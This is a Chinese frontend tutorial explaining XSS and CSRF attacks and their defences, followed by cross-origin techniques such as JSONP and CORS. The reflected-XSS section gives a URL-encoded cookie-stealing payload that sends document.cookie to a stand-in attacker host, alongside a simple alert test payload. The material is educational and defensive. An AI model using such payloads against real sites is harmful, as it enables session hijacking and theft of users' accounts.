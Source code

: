应后端同学要求，给大家分享一些稍微理论一点的知识，即前端跨域的知识。在讲跨域之前，先介绍一下前端的安全。
# 安全
## XSS攻击（跨站脚本攻击）
XSS(Cross Site Scripting)，跨站脚本攻击，XSS是常见的Web攻击技术之一。所谓的跨站脚本攻击指得是：恶意攻击者往Web页面里注入恶意script代码，用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取cookie信息、会话劫持等各种攻击。
### 反射型漏洞     
**一，例子说明**：    

1）通过程序参数输出传递的参数到HTML页面，则打开下面的网址将会返回一个消息提示：
请求：

```
http://你的网站/xss/message.php?send=Hello,World www.111cn.net!
```
返回：

```
Hello,World www.111cn.net!
```
2）如果此程序没有经过过滤等安全措施，则它将会很容易受到攻击。假如我们在原程序的URL的参数为，替换为我们用来测试的代码：
请求：

```
http://www.111cn.net /xss/message.php?send=<script>alert(‘xss’)</script>
```
返回：

```
<script>alert(‘xss’)</script>
```
这样，用户在浏览器打开的时候，就会运行我们的弹框了。由于这种漏洞需要发送一个包含了嵌入式JavaScript代码的请求，随后这些代码被反射给了发出请求的用户，因此被称为反射型XSS。攻击有效符合分别通过一个单独的请求与响应进行传送和执行，因为也被称为一阶XSS。    

**二，攻击案例：**
1. 用户正常登录Web应用程序，登录成功会得到一个会话信息的cookie：

```
Set-cookie:sessId = f16e1035c301aa099c971682d806c0c7 f16e1035c301aa099c971682d806c0c7
```

2. 攻击者将含有攻击代码的URL发送给被攻击人；

```
http://你的网站/xss/message.php?send=%3Cscript%3Edocument.write(‘%3Cimg%20height=0%20width=0%20src=%22 http://hacker.你的网站/xss/cookie_save.php%3Fcookie=%3D’%20+%20encodeURL(document.cookie)%20+%20’%22/%3E’)%3C/script%3E
```

3. 用户打开攻击者发送过来的ULR
4. Web应用程序执行用户发出的请求，同时也会执行该URL中所含的攻击者的JavaScript代码；
5. 例子中攻击者使用的攻击代码作用是将用户的cookie信息发送到cookie_save.php这个文件来记录下来；
6. 攻击者在得到用户的cookie信息后，将可以利用这些信息来劫持用户的会话。以该用户的身份进行登录     

### 存储式漏洞   
该类型是应用最为广泛而且有可能影响到Web服务器自身安全的漏洞，骇客将攻击脚本上传到Web服务器上，使得所有访问该页面的用户都面临信息泄漏的可能，其中也包括了Web服务器的管理员。
简单来说明一下存储型XSS的攻击基本流程:
1. 比如在某个论坛提供留言板功能，黑客在留言板内插入恶意的html或者Javascript代码，并且提交。
2. 网站后台程序将留言内容存储在数据中
3. 然后一个用户也访问这个论坛，并刷新了留言板，这时网站后台从数据库中读取了之前黑客的留言内容，并且直接插入在html页面中，这就可能导致了：黑客留言的脚本本身应该作为内容显示在留言板的，然后此时可能黑客的留言脚本被浏览器解释执行了。
4. 黑客的脚本可以用来他想要做的事情。例如通过javascript获取用户的cookie，根据这个cookie窃取用户信息，例如重新更改页面内容，假装让客户输入用户名，密码，然后提交到黑客的服务器等。
### 防御手段
不管是反射型还是存储型，XSS攻击的防御方法主要是两种 ：    
**一，对输入（和UR参数）进行过滤**   
**二，对输出进行编码**    
也就是对提交的所有内容进行过滤，对url中的参数进行过滤，过滤掉会导致脚本执行的相关内容；然后对动态输出到页面的内容进行html编码，使脚本无法在浏览器中执行。虽然对输入过滤可以被绕过，但是也还是会拦截很大一部分的XSS攻击。    
## CSRF
CSRF（Cross-site request forgery）跨站请求伪造，是一种对网站的恶意利用。尽管听起来像跨站脚本（XSS），但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装来自受信任用户的请求来利用受信任的网站。与XSS攻击相比，CSRF攻击往往不大流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比XSS更具危险性。        

**攻击案例：**    
1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。      

**防御手段：**       

目前防御 CSRF 攻击主要有三种策略：    

**1. 验证 HTTP Referer 字段：**    

根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。    
在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问 http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory，用户必须先登陆 bank.example，然后通过点击页面上的按钮来触发转账事件。这时，该转帐请求的 Referer 值就会是转账按钮所在的页面的 URL，通常是以 bank.example 域名开头的地址。而如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。      

**2. 在请求地址中添加 token 并验证：**    

CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。    

**3. 在 HTTP 头中自定义属性并验证：**     

这种方法也是使用 token 并进行验证，和上一种方法不同的是，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到 HTTP 头中自定义的属性里。通过 XMLHttpRequest 这个类，可以一次性给所有该类请求加上 csrftoken 这个 HTTP 头属性，并把 token 值放入其中。这样解决了上种方法在请求中加入 token 的不便，同时，通过 XMLHttpRequest 请求的地址不会被记录到浏览器的地址栏，也不用担心 token 会透过 Referer 泄露到其他网站中去。
# 跨域
**什么是跨域：**    
跨域问题的产生，源于浏览器的安全设置。浏览器对于javascript的同源策略的限制,例如a.cn下面的js不能调用b.cn中的js,对象或数据(因为a.cn和b.cn是不同域),这样可以一定程序上防止恶意程序的入侵，但也就引起了有正常需求的跨域问题了。

**同源策略：**    
请求的url地址,必须与浏览器上的url地址处于同域上,也就是域名,端口,协议相同。如果我在本地上的域名是study.cn,请求另外一个域名一段数据，这个时候在浏览器上会报错。
![image](https://raw.githubusercontent.com/labsInsight/blogs/master/Resources/3-safe-cross.png)
    
跨域的解决方案有很多，目前常用的有：
1. **图片ping或script标签跨域**    
一个网页可以从任何网页加载图像，不用担心跨域不跨域，所以，我们就可以利用图片不受“同源限制”这一点进行跨域通信。     
因为，我们可以利用JS创建一个新的Image对象，并把src属性设置为指向请求的地址，通过监听onload和onerror事件来确定是否接受到了响应。响应的数据可以是任意内容，但通常是像素图或204响应。   
这种方式优点是很明显的：兼容性非常好，缺点就是：只能发生GET请求，而且无法获取响应文本。
2. **JSONP跨域**    
jsonp 全称是JSON with Padding,是为了解决跨域请求资源而产生的解决方案,是一种依靠开发人员创造出的一种非官方跨域数据交互协议。   
利用<script>元素的这个开放策略，网页可以得到从其他来源动态产生的 JSON 资料，而这种使用模式就是所谓的 JSONP。用 JSONP 抓到的资料并不是 JSON，而是任意的JavaScript，用 JavaScript 直译器执行而不是用 JSON 解析器解析。
3. **CORS**    
跨域资源共享（ CORS ）机制允许 Web 应用服务器进行跨域访问控制，从而使跨域数据传输得以安全进行。浏览器支持在 API 容器中（例如 XMLHttpRequest 或 Fetch ）使用 CORS，以降低跨域 HTTP 请求所带来的风险。CORS 需要客户端和服务器同时支持。目前，所有浏览器都支持该机制。    
与 JSONP 不同，CORS 除了 GET 要求方法以外也支持其他的 HTTP 要求。服务器一般需要增加如下响应头的一种或几种：

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
Access-Control-Max-Age: 86400
```
跨域请求默认不会携带Cookie信息，如果需要携带，请配置下述参数：

```
"Access-Control-Allow-Credentials": true
"withCredentials": true
```

4. **window.name+iframe**    
window.name通过在iframe（一般动态创建i）中加载跨域HTML文件来起作用。然后，HTML文件将传递给请求者的字符串内容赋值给window.name。然后，请求者可以检索window.name值作为响应。
5. **window.postMessage()**    
HTML5新特性，可以用来向其他所有的 window 对象发送消息。需要注意的是我们必须要保证所有的脚本执行完才发送 MessageEvent，如果在函数执行的过程中调用了它，就会让后面的函数超时无法执行。
6. **修改document.domain跨子域**    
前提条件：这两个域名必须属于同一个基础域名!而且所用的协议，端口都要一致，否则无法利用document.domain进行跨域，所以只能跨子域。 在根域范围内，允许把domain属性的值设置为它的上一级域。例如，在”aaa.xxx.com”域内，可以把domain设置为 “xxx.com” 但不能设置为 “xxx.org” 或者”com”。
7. **WebSocket**    
WebSocket protocol 是HTML5一种新的协议。它实现了浏览器与服务器全双工通信，同时允许跨域通讯，是server push技术的一种很棒的实现。
8. **代理**    
同源策略是针对浏览器端进行的限制，可以通过服务器端来解决该问题：    
DomainA客户端（浏览器） ==> DomainA服务器 ==> DomainB服务器 ==> DomainA客户端（浏览器）   
### CORS跨域设置案例
我司采用的是CORS方案来进行跨域。    
CORS需要浏览器和服务器同时支持。整个CORS通信过程，都是浏览器自动完成，不需要用户参与。对于开发者来说，CORS通信与同源的AJAX通信没有差别，代码完全一样。浏览器一旦发现AJAX请求跨源，就会自动添加一些附加的头信息，有时还会多出一次附加的请求，但用户不会有感觉。**因此，实现CORS通信的关键是服务器。只要服务器实现了CORS接口，就可以跨源通信**。        
    
浏览器将CORS请求分成两类：简单请求（simple request）和非简单请求（not-so-simple request）。  
只要同时满足以下两大条件，就属于简单请求。

```
只要同时满足以下两大条件，就属于简单请求。

（1) 请求方法是以下三种方法之一：
    HEAD
    GET
    POST
    
（2）HTTP的头信息不超出以下几种字段：
    Accept
    Accept-Language
    Content-Language
    Last-Event-ID
    Content-Type：只限于三个值application/x-www-form-urlencoded、multipart/form-data、text/plain
```
#### 简单请求
对于简单请求，浏览器直接发出CORS请求。具体来说，就是在头信息之中，增加一个Origin字段。    

```
GET /cors HTTP/1.1
Origin: http://api.bob.com
Host: api.alice.com
Accept-Language: en-US
Connection: keep-alive
User-Agent: Mozilla/5.0...
```

服务器根据这个值，决定是否同意这次请求。    
如果Origin指定的源，不在许可范围内，服务器会返回一个正常的HTTP回应。浏览器发现，这个回应的头信息没有包含Access-Control-Allow-Origin字段，就知道出错了，从而抛出一个错误，被XMLHttpRequest的onerror回调函数捕获。注意，这种错误无法通过状态码识别，因为HTTP回应的状态码有可能是200。    
如果Origin指定的域名在许可范围内，服务器返回的响应，会多出几个头信息字段。

```
Access-Control-Allow-Origin: http://api.bob.com
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: FooBar
Content-Type: text/html; charset=utf-8
```

#### 非简单请求
非简单请求的CORS请求，会在正式通信之前，增加一次HTTP查询请求，称为"预检"请求（preflight）。

浏览器先询问服务器，当前网页所在的域名是否在服务器的许可名单之中，以及可以使用哪些HTTP动词和头信息字段。只有得到肯定答复，浏览器才会发出正式的XMLHttpRequest请求，否则就报错。    

服务器收到"预检"请求以后，检查了Origin、Access-Control-Request-Method和Access-Control-Request-Headers字段以后，确认允许跨源请求，就可以做出回应。
> 参考文档：    
阿里云：https://yq.aliyun.com/ziliao/29368    
CSDN安全博文：https://blog.csdn.net/stpeace/article/details/53512283    
CSDN跨域博文：https://blog.csdn.net/ligang2585116/article/details/73072868    
阮一峰老师：http://www.ruanyifeng.com/blog/2016/04/cors.html

